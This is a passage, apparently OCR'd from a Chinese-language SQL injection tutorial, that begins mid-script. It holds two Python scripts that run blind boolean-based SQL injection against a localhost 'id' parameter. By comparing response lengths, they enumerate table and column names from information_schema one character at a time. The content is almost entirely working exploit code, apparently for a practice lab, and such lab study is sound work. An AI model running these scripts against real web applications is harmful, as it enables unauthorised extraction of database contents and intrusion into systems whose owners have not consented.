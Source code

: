 ```python
        if len(message.text) > len(Raw_data_length.text):
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_table_name = f"http://localhost/?id=a' and ascii(substr((select table_name from " \
                                f"information_schema.tables where table_schema=database() limit {count},1),{i}," \
                                f"1))={num_2} -- qqqqq "
            message = requests.get(url_table_name)
            if len(message.text) == len(Raw_data_length.text):
                payload += chr(num_2)
    count += 1
    print(payload)
print("——"*10)
```

##### 获取字段名

```python
import requests

payload = ''
num_1 = 1
Raw_data_length = requests.get('http://localhost/?id=a')
count = 0
while True:
    url_columns_names_count = f"http://localhost/?id=a' and select count(column_name) from information_schema.columns where " \
                      f"table_schema=database() and table_name=‘users’ >= {count} -- qqqqq"
    message = requests.get(url_columns_names_count)
    if len(message.text) > len(Raw_data_length.text):
        break
    while True:
        url_columns_name_length = f"http://localhost/?id=a' and char_length((select column_name from " \
                              f"information_schema.columns where table_schema=database() and table_name=‘users’ limit " \
                              f"{count},1))>={num_1} -- qqqqq "
        message = requests.get(url_columns_name_length)
        if len(message.text) > len(Raw_data_length.text):
            break
        num_1 += 1

    for i in range(1, num_1 + 1):
        for num_2 in range(33, 126):
            url_columns_name = f"http://localhost/?id=a' and ascii(substr((select column_name from " \
                                f"information_schema.columns where table_schema=database() and table_name=‘users’ " \
                                f"limit {count},1),{i}," \
                                f"1))={num_2} -- qqqqq "
            message = requests.get(url_columns_name)
            if len(message.text) == len(Raw_data_length.text):
                payload += chr(num_2)
    count += 1
    print(payload)
print("——"*10)

```
